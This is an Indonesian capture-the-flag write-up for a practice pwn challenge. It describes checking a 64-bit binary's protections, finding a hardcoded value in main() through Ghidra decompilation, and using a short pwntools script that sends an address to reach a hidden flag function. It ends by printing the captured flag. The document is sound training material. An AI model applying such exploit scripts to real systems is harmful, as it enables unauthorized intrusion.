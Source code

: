 # Rill or Fekk
>Real or fake? it depends on your choice! Lets see how u can trigger a function without actually calling it.


1. Diberikan sebuah file binary dengan arsitektur 64 bit - not stripped.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/3b543e2d-0021-4eec-9c90-d38dd7458159)

2. Langsung saja kita cek proteksi yang di apply pada binary file.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/40a8c7cc-8610-4e3e-92b8-59791202131f)


3. Surprisingly tidak diberikan proteksi apapun pada binary, langsung saja kita decompile file binary untuk mengidentifikasi kerentanan. Disini saya menggunakan decompiler bernama Ghidra.

> Fungsi main()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/69284393-92c6-4a89-b071-564dca86cac8)


4. Pada fungsi `main()` nampaknya terdapat hardcoded values yang dapat kita gunakan untuk membuka fungsi `secretzz()`, yang dimana isi dari fungsi tersebut sepertinya akan menampilkan flag di remote server.

> Fungsi secretzz()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/a5415304-de54-431d-888a-a1041660a787)


5. Mengetahui hal ini, langsung saja kita jalankan solver berikut:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './Chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 64

p = flat([
    b'4199254' # decimal representation of 0x401356
])

sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/8531464a-a644-4642-8491-953682a740fc)

Flag yang didapat :

```console
ForestyHC{eyyoo_u_ar3nt_supp0ssd_t0_b3_h3re_subm1t_th1zz_and_g0_aw4yy_a4xc0d}
```
